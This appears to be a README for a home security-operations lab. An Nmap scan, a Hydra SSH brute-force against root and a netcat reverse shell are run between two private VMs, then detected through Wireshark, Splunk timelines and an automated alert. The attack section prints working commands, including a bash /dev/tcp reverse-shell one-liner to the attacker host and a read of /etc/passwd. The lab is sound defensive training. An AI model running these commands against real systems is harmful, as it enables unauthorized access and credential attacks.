








# End-to-End SOC Simulation Lab

## Objective
Simulate a complete multi-phase attack chain — reconnaissance, brute-force exploitation, and reverse shell post-exploitation — against a victim host, then perform full SOC incident analysis using Splunk to build an incident timeline, identify the attacker, and trigger automated alerts across all phases.

## Tools Used
- Kali Linux
- Nmap
- Hydra
- Netcat
- Wireshark / tcpdump
- Splunk

## Skills Demonstrated
- Multi-Phase Attack Simulation
- Network Traffic Capture & Analysis
- Incident Timeline Construction
- SPL Query Writing (eval, case, rex, timechart)
- Automated Alert Configuration
- SOC Incident Response Workflow

## Environment
- Attacker: Kali Linux VM1 (192.168.56.103)
- Victim: Kali Linux VM2 running OpenSSH + Apache2 + Splunk Enterprise (192.168.56.104)
- Network: 192.168.56.0/24 (Host-Only adapter)
- Log sources: /var/log/auth.log (sourcetype linux_secure)
- Packet capture: /tmp/e2e_capture.pcap

## Attack Chain

### Phase 1 — Reconnaissance (Nmap)
Started packet capture on VM2 before beginning the attack:
```bash
sudo tcpdump -i eth1 -w /tmp/e2e_capture.pcap &
```

Ran three Nmap scan types from VM1 to enumerate the target:
```bash
nmap -sS 192.168.56.104
nmap -sV 192.168.56.104
nmap -A 192.168.56.104
```

Nmap discovered three open services on the victim:
- Port 22/tcp — OpenSSH 10.2p1 Debian 6 (protocol 2.0)
- Port 80/tcp — Apache httpd 2.4.66 (Debian)
- Port 8000/tcp — Splunk httpd

OS fingerprinting identified the target as Linux kernel. The presence of Splunk on port 8000 was also revealed — demonstrating that reconnaissance can expose the defender's own monitoring infrastructure.

### Phase 2 — Exploitation (Hydra SSH Brute Force)
Used Hydra to attempt SSH password brute-force against the victim's root account:
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt \
ssh://192.168.56.104 -t 4 -V
```
Ran two separate Hydra sessions (01:25:20 and 01:25:44 on July 18) generating multiple failed login attempts from `192.168.56.103` — all captured in auth.log on the victim.

### Phase 3 — Post-Exploitation (Reverse Shell)
Started Netcat listener on VM1 (attacker):
```bash
nc -lvnp 4444
```

Triggered reverse shell callback from VM2 (victim):
```bash
bash -c 'bash -i >& /dev/tcp/192.168.56.103/4444 0>&1'
```

Connection established: VM2 (`192.168.56.104`) connected back to VM1 (`192.168.56.103`) on port 4444. Executed post-exploitation commands through the shell:
```bash
whoami    → kali
id        → uid=1000(kali) gid=1000(kali) groups=1000(kali)...
hostname  → kali
cat /etc/passwd
```

## Network Evidence (Wireshark)
Opened `e2e_capture.pcap` in Wireshark with filter:
```
tcp.port == 22 || tcp.port == 4444
```
147 total packets captured, 77 displayed after filtering. The packet detail pane confirmed port 4444 TCP stream data containing `cat /etc/passwd` and `whoami` commands in plaintext — visible in both the ASCII decode and hex dump panes, proving the reverse shell session was unencrypted and fully readable.

## SOC Analysis (Splunk)

### Incident Timeline
Built a phase-labelled incident timeline using eval/case logic:
```
index=main
| eval phase=case(
    match(_raw,"Failed password"), "Phase 2 - Brute Force",
    match(_raw,"Accepted password"), "Phase 2 - Success",
    match(_raw,"Connection closed.*preauth"), "Phase 1 - Recon",
    true(), "Other")
| where phase!="Other"
| table _time phase host source _raw
| sort _time
```
Result: **20 events** — mix of Phase 1 Recon (connection closed preauth from port scan) and Phase 2 Brute Force (Failed password from Hydra), all timestamped and sorted chronologically. The timeline confirms the attack progression: recon-style connections at 01:25:21-01:25:23, immediately followed by brute-force failed logins from the same IP.

### Attacker IP Analysis
```
index=main sourcetype=linux_secure
| rex "from (?P<attacker_ip>\d+\.\d+\.\d+\.\d+)"
| stats count by attacker_ip
| sort -count
```
Result: **170 total events**, single attacker IP `192.168.56.103` with **16 failed login attempts** — confirming all attack phases originated from the same source.

### Attack Timechart
```
index=main sourcetype=linux_secure
| timechart span=1m count
```
Visualization confirmed: flat baseline across the entire 24-hour window until a sharp spike just before 2:00 AM on July 18 — the exact moment the attack chain ran. The spike pattern aligns precisely with the Hydra brute-force session timestamps.

### Automated Alert
Saved alert: **E2E SOC Simulation - Attack Chain Detected**
- Trigger condition: Number of results > 10
- Schedule: Cron (`* * * * *`) — every 1 minute
- Result: Alert fired **twice** — at 01:59:04 and 02:00:02 EDT on July 18 2026, automatically detecting the ongoing attack chain without manual intervention

## Attack Chain Summary

| Phase | Tool | Target | Evidence |
|---|---|---|---|
| 1 - Recon | Nmap (-sS, -sV, -A) | 192.168.56.104 | Ports 22, 80, 8000 discovered |
| 2 - Exploit | Hydra | SSH port 22 | 16 failed login attempts in auth.log |
| 3 - Shell | Netcat reverse shell | Port 4444 | Shell commands visible in Wireshark pcap |
| Detection | Splunk | All phases | 20-event incident timeline, alert fired x2 |

## Screenshots



All three Nmap scan types revealing open ports 22 (SSH), 80 (Apache), and 8000 (Splunk) on the victim — including OS fingerprinting and service version detection



Two Hydra SSH brute-force sessions running from VM1 against VM2 — multiple login attempts with common passwords, all generating Failed password entries in auth.log



Netcat listener on VM1 receiving connection from VM2 — reverse shell established, whoami/id/hostname commands executed through the session



Splunk rex+stats query showing 170 total events, attacker IP 192.168.56.103 with 16 failed login attempts confirmed



Splunk timechart — flat 24-hour baseline with sharp spike at attack time, visually confirming the attack window



E2E SOC Simulation alert fired twice automatically — trigger condition count > 10, fired at 01:59:04 and 02:00:02 EDT



Wireshark filtered on tcp.port==22 || tcp.port==4444 — reverse shell traffic on port 4444 visible with cat /etc/passwd and whoami commands readable in hex/ASCII pane



Splunk eval/case incident timeline — 20 events labeled Phase 1 Recon and Phase 2 Brute Force, sorted chronologically showing full attack progression

## What I Learned
- Running a full attack chain end-to-end — recon through shell — produces distinctly different log signatures at each phase, and correlating them into a single timeline is the core skill of incident response
- Nmap's -sV scan revealed Splunk running on port 8000 — a real-world reminder that attackers can fingerprint a defender's monitoring tools during reconnaissance, which is why network segmentation matters
- The Splunk eval/case query is a practical technique for labeling and categorising events by attack phase, turning a flat log stream into a readable incident narrative
- Wireshark confirmed the reverse shell commands in plaintext at the packet level — proving why encrypted C2 channels (like HTTPS-based frameworks) are harder to detect than simple Netcat shells
- An automated alert firing twice within two minutes of the attack starting demonstrates that a well-tuned SIEM can detect multi-phase attacks in near real-time, not just after the fact during forensic review
